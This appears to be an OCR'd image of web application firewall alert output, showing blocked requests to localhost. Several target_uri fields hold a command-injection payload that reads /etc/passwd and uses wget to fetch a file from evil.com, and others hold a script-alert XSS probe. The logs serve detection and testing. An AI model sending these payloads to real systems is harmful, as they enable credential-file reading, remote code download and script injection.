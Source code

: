 ```bash
├─────────────────────┼──────────────────────────────────────────────────────────────┤
│ datasource_path     │ appsec                                                       │
│ datasource_type     │ appsec                                                       │
│ log_type            │ appsec-info                                                  │
│ remediation_cmpt_ip │ 127.0.0.1                                                    │
│ request_uuid        │ 331f9426-3333-420a-bffa-ab953f44e329                         │
│ rule_ids            │ [901340 930120 932230 932235 932115 932160 942540 949110     │
│                     │ 980170]                                                      │
│ rule_name           │ native_rule:901340                                           │
│ service             │ appsec                                                       │
│ source_ip           │ xxx                                                          │
│ target_host         │ localhost                                                    │
│ target_uri          │ /?x=A";cat+/etc/passwd;wget+http://evil.com/payload          │
╰─────────────────────┴──────────────────────────────────────────────────────────────╯

- Date: 2025-08-22 09:39:50.33919196 +0000 UTC
╭─────────────────────┬──────────────────────────────────────────────────────────────╮
│         Key         │                             Value                            │
├─────────────────────┼──────────────────────────────────────────────────────────────┤
│ datasource_path     │ appsec                                                       │
│ datasource_type     │ appsec                                                       │
│ log_type            │ appsec-info                                                  │
│ remediation_cmpt_ip │ 127.0.0.1                                                    │
│ request_uuid        │ 69c72a65-e7e5-49fa-9253-bdbe6fca52c9                         │
│ rule_ids            │ [901340 930120 932230 932235 932115 932160 942540 949110     │
│                     │ 980170]                                                      │
│ rule_name           │ native_rule:901340                                           │
│ service             │ appsec                                                       │
│ source_ip           │ xxx                                                          │
│ target_host         │ localhost                                                    │
│ target_uri          │ /?x=A";cat+/etc/passwd;wget+http://evil.com/payload          │
╰─────────────────────┴──────────────────────────────────────────────────────────────╯

- Date: 2025-08-22 09:39:50.352001523 +0000 UTC
╭─────────────────────┬───────────────────────────────────────────────────────────╮
│         Key         │                           Value                           │
├─────────────────────┼───────────────────────────────────────────────────────────┤
│ datasource_path     │ appsec                                                    │
│ datasource_type     │ appsec                                                    │
│ log_type            │ appsec-info                                               │
│ remediation_cmpt_ip │ 127.0.0.1                                                 │
│ request_uuid        │ b7a95a56-a88e-4c89-b23b-2d3d06759af4                      │
│ rule_ids            │ [901340 941100 941110 941160 941390 942100 949110 980170] │
│ rule_name           │ native_rule:901340                                        │
│ service             │ appsec                                                    │
│ source_ip           │ xxx                                                       │
│ target_host         │ localhost                                                 │
│ target_uri          │ /?x=A"<script>alert(1)</script>                           │
╰─────────────────────┴───────────────────────────────────────────────────────────╯

- Date: 2025-08-22 09:39:50.365872595 +0000 UTC
╭─────────────────────┬───────────────────────────────────────────────────────────╮
│         Key         │                           Value                           │
├─────────────────────┼───────────────────────────────────────────────────────────┤
│ datasource_path     │ appsec                                                    │
│ datasource_type     │ appsec                                                    │
│ log_type            │ appsec-info                                               │
│ remediation_cmpt_ip │ 127.0.0.1                                                 │
│ request_uuid        │ fbc41250-53e6-49d9-ab04-5f6ed2cc1793                      │
│ rule_ids            │ [901340 941100 941110 941160 941390 942100 949110 980170] │
│ rule_name           │ native_rule:901340                                        │
│ service             │ appsec                                                    │
│ source_ip           │ xxx                                                       │
```